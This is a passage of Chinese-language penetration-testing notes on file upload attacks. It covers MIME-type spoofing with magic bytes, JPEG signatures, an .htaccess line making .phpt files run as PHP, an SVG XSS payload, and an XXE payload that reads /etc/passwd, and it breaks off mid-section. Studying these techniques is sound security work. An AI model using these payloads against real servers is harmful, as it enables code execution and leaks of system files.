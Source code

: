 - 過濾出想用的content-type
``` bash
cat content-type.txt | grep 'image/' > image-content-types.txt
```
### MIME-Type
因為php利用`mime_content_type()`來判斷檔案的MIME-Type，而`mime_content_type()`判斷的放事就是判斷檔案開始的字元。

如果檔案開頭是`GIF87a`或是`GIF89a`，那`mime_content_type()`就會把檔案判斷為gif檔案，所以可以透過把檔案開始的字元修改成`GIF8`的方式來欺騙php。
### File Signatures
[參考資料](https://en.wikipedia.org/wiki/List_of_file_signatures)
>可以透過修burpsuit修改File Signature的方式來騙

- jpg 、jpeg (`ÿØÿà␀␐JFIF␀␁`)
```
FF D8 FF E0 00 10 4A 46 49 46 00 01
```
- jpg、jpeg(`ÿØÿî`)
```
FF D8 FF EE
```
- jpg、jpeg(`ÿØÿá??Exif␀␀`)
```
FF D8 FF E1 ?? ?? 45 78 69 66 00 00
```
- jpg(`ÿØÿà`)
```
FF D8 FF E0
```
### 修改可以執行的檔案
>[!note]
>`.htaccess`可以設定可被php執行的檔案，如果可以修改`.htaccess`，就應該可以上傳其他檔案類型來執行
- 我希望讓`.phpt`可以執行
```
echo "AddType application/x-httpd-php .phpt" > .htaccess
```
## Limited File Uploads
>[!warning] 小節重點
>當網站沒有任意檔案上傳的時候，還是有一些方法讓File Upload或其他攻擊手法創造機會，如果網頁可以上傳`SVG`, `HTML`, `XML`時，我們可以利用以下三種方法。
>- XXS
>- XXE
>- Dos
### XSS
當有機會上傳`HTML`檔案時，雖然沒有辦法直接執行，但是還是有機會透過暗藏javascript做到 XSS 或是 CSRF attack。
當有機會上傳`SVG`(Scalable Vector Graphics (SVG))的時候，就可以在裡面塞XSS payload。
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
### XXE
對於可以上傳SVG的系統，可以利用XXE exploitation 做到information leak
- /etc/passwd leak
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```
- source code leak
```xml
<?xml version="1.0" encoding="UTF-8"?>
```